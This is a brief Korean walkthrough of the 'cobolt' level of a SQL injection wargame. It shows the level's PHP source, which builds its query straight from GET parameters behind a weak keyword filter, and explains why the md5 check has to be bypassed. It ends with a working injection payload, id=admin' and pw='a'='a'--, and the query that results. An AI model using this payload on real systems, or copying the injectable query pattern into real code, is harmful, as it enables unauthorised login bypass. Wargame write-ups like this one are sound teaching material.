

query : select id from prob_cobolt where id='' and pw=md5('')
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
php md5함수는 단방향 함수로서 암호화는 가능하지만 복호화하는 함수는 없다.
pw를 md5해쉬로 보내기 때문에 pw칼럼에 암호화된 해쉬값으로 저장하고 있지 않다면 항상 거짓이 나올 것이다.
하지만 해쉬값으로 저장하고 있다고 해도 맞는 pw를 알 방법이 없으므로 md5를 무력화시키는게 가장 좋은 방법일 것이다.
https://los.eagle-jump.org/cobolt_e~0.php?id=admin' and pw='a'='a'-- &pw=
query : select id from prob_cobolt where id='admin' and pw='a'='a'-- ' and pw=md5('')